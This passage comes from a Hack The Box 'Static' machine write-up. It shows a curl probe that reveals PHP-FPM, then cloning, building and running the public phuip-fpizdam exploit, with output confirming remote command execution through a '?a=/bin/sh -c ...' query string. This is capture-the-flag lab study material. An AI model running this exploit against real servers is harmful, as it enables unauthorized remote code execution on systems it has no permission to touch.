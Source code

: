 ```console
elpollon@elpollon:~/HTB/Static/content$ curl -v http://localhost
*   Trying ::1:80...
* Connected to localhost (::1) port 80 (#0)
> GET / HTTP/1.1
> Host: localhost
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Wed, 08 Dec 2021 22:13:37 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP-FPM/7.1
< 
batch mode: /usr/bin/ersatool create|print|revoke CN
* Connection #0 to host localhost left intact
```

[PHP-FPM](https://www.stackscale.com/blog/php-fpm-high-traffic-websites/) is enabled. This feature could be vulnerable to [Underflow RCE](https://www.rapid7.com/db/modules/exploit/multi/http/php_fpm_rce/) if has certain configuration. I've used this [exploit](https://github.com/neex/phuip-fpizdam/) from [neex](https://github.com/neex) written in go.

```console
elpollon@elpollon:~/HTB/Static/exploits$ git clone https://github.com/neex/phuip-fpizdam/
Cloning into 'phuip-fpizdam'...
remote: Enumerating objects: 137, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 137 (delta 11), reused 18 (delta 7), pack-reused 113
Receiving objects: 100% (137/137), 7.17 MiB | 9.23 MiB/s, done.
Resolving deltas: 100% (72/72), done.

elpollon@elpollon:~/HTB/Static/exploits$ cd phuip-fpizdam
elpollon@elpollon:~/HTB/Static/exploits$ go build .
elpollon@elpollon:~/HTB/Static/exploits$ ./phuid-fpizdam http://localhost/index.php
2021/12/08 19:41:35 Base status code is 200
2021/12/08 19:41:54 Status code 502 for qsl=1765, adding as a candidate
2021/12/08 19:42:08 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2021/12/08 19:42:16 Attack params found: --qsl 1755 --pisos 11 --skip-detect
2021/12/08 19:42:16 Trying to set "session.auto_start=0"...
2021/12/08 19:42:33 Detect() returned attack params: --qsl 1755 --pisos 11 --skip-detect <-- REMEMBER THIS
2021/12/08 19:42:33 Performing attack using php.ini settings...
2021/12/08 19:42:50 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2021/12/08 19:42:50 Trying to cleanup /tmp/a...
2021/12/08 19:42:51 Done!
```
